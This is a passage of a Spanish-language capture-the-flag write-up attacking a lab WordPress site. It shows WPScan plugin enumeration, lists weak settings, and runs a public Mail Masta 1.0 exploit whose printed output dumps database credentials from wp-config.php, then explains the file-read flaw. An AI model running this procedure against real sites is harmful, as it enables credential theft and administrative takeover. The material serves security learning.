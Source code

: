 ```bash
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.201.7.182/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] reflex-gallery
 | Location: http://10.201.7.182/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2021-03-10T02:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.201.7.182/wordpress/wp-content/plugins/reflex-gallery/readme.txt
```

**Resultados relevantes:**

- **WordPress 5.5.1** (inseguro, release 2020-09-01).
- **XML-RPC** habilitado.
- **Directory listing** activo en `wp-content/uploads/`.
- **WP-Cron** accesible externamente.
- Plugins detectados:
    
    - **mail-masta 1.0** (vulnerable, vector principal de este compromiso).
    - **reflex-gallery 3.1.7** (no se explotó).


Estas señales combinadas (WP desactualizado, XML-RPC abierto y listado de uploads) ya sugerían una **postura débil de seguridad** antes incluso de confirmar el plugin vulnerable.


## Explotación inicial — Mail Masta 1.0

Se empleó un **exploit público** para el plugin **Mail Masta 1.0**. El payload permitió **leer y decodificar** el archivo **`wp-config.php`**, exponiendo las credenciales de la base de datos, típicamente reutilizadas para otras funciones (o palanca para acceso administrativo). Ejecución y salida:


```bash
zikuta㉿zikuta)-[~/Desktop/allinone/wp-mail-masta-exploit]
└─$ python3 mail-masta-exploit.py http://10.201.7.182/wordpress                                  
[!] Direct read failed or incomplete, trying base64 encoding method
[+] Successfully read and decoded wp-config.php
     
[+] MySQL Database Username: elyana
[+] MySQL Database Password: H@ckme@123
```

Con esas credenciales se validó el acceso al panel de WordPress como administrador.

**Por qué funciona:** el plugin presenta una **falla de validación de entradas** que habilita la **lectura arbitraria** (p. ej., mediante rutas o consultas mal filtradas), permitiendo exfiltrar ficheros sensibles como `wp-config.php`. Desde el punto de vista de riesgo, es **exposición de secretos** que habilita **toma de control de la aplicación**.
